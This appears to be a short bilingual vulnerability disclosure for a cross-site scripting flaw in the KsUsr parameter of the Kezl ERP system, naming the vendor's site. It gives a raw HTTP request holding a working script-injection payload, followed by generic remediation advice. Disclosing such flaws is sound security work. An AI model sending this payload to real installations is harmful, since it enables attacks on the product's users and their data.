

# XSS vulnerability exists in the parameter KsUsr of Kezl ERP enterprise management system

### 企业官网(Enterprise official website)：

www.i-kingdom.com

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?HEAD=uujp6&KsUsr=</script><svg onload=alert('xss17')>//&api=ombi7&arguments=n1vc8&click=euxp4&code=ss5v9&country=zv7z2&email=hxjl1&headimgurl=u8uc0&jsonStr=wyfw8&keywords=c3l47&name=ixt44&newuserid=u2xw0&nickname=w2kv6&p=k4ax8&search=fb9y6&terms=qay82&this=wmi95&unsubscribe_token=hhjy4&w=zg7h0 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```



### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

